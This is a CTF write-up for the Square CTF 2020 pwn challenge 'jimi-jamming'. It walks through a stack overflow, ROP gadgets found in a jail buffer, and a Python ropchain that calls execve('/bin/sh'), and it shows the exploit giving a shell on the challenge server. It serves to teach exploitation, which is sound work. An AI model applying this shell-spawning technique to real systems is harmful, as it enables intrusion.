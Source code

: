 jimi-jamming
============

This challenge was part of Square CTF 2020.

Challenge description:
```
Out of the frying pan? Back into the JAM JAR WITH YOU
nc challenges.2020.squarectf.com 9001
```

* Points: 300
* Topics: pwn
* Given files: `jimi-jamming`, `libc.so.6`

## Approach
Let's check the mitigations techniques:
```bash
$ checksec jimi-jamming
[*] './jimi-jamming'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Similar to the [other challenge](../jimi-jam), this looks like there might be a stack overflow involved.

Loading the binary in a decompiler turns out, the binary first initializes a `ROPJAIL` buffer (size: 0x1000 bytes).
Said buffer is allocated by `posix_memalign` and aligned to page size (0x1000).
The binary then fills the entile `ROPJAIL` buffer with pseudo random data, such that it contains the same content in every execution.
Also, every 16th byte is a `\xc3`, which is the opcode for `ret`.
We are then able to modify 10 bytes in the `ROPJAIL` buffer with 10 bytes that we provide (Awesome!).
After that, the entire `ROPJAIL` buffer is mapped `rx`, so we can't change it afterwards.

In this challenge we don't get a leak - but we also don't need any leak.

Instead, the binary provides a buffer overflow in the `vuln()` function.
We can write 0x80 bytes to a buffer of size 0x8 bytes.
There is one limitation though: Every long of the first half of our input must either be `< 0x200000000` or point into the `ROPJAIL` buffer.

This is everything we need to know, to exploit this binary. So, what do we do? 
Let's use rop gadgets from the `ROPJAIL` buffer to trigger a `execve` system call; And if necessary we can inject our own code (upto 10 bytes) into the `ROPJAIL` buffer.

Luckily, [`ropper`](https://github.com/sashs/ropper) also can find rop gadgets in raw blobs.
Among other gadgets the `ROPJAIL` buffer contains the following (which we are all going to use):

```
0xdcf:   pop rax; ret;
0xd3f:   pop rsi; ret;
0x7df:   pop rdx; ret;
0xdaf:   pop rdi; ret;
```

Thus, we can set all registers for the system call.
If we specify `'\x0f\x05' + '/bin/sh\0'` as the 10 bytes that are written to the `ROPJAIL` buffer, we can trigger the system call (`'\x0f\x05'`) and provide `/bin/sh` in `rdi`.
Also, we need to set `rax` to `0x3b`, since this is the `execve` syscall number.

Therefore, the ropchain looks like this:
```python
ropchain = [
	pop_rsi,          # Set rsi to 0 (argv)
	0,
	pop_rdx,          # Set rdx to 0 (envp)
	0,
	pop_rax,          # Set syscall number (execve)
	0x3b,
	pop_rdi,          # Set filename parameter to '/bin/sh'
	jail_leak + 0x2,
	jail_leak,        # Trigger the syscall;
]
```

We only need to send padding bytes (`'\0'*32`) to put the ropchain at the right place.
That's all we need to do!

## Exploit
You can find the exploit in [`x.py`](./x.py).

Just run it:
```bash
$ ./x.py remote
[*] './jimi-jamming'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] './libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.2020.squarectf.com on port 9001: Done
[*] Jail @ address 0x5609d6a07000
[*] Sending ropchain
[*] Switching to interactive mode
$ cat flag.txt
flag{ret_is_the_same_as_sigint_imo}
$
```
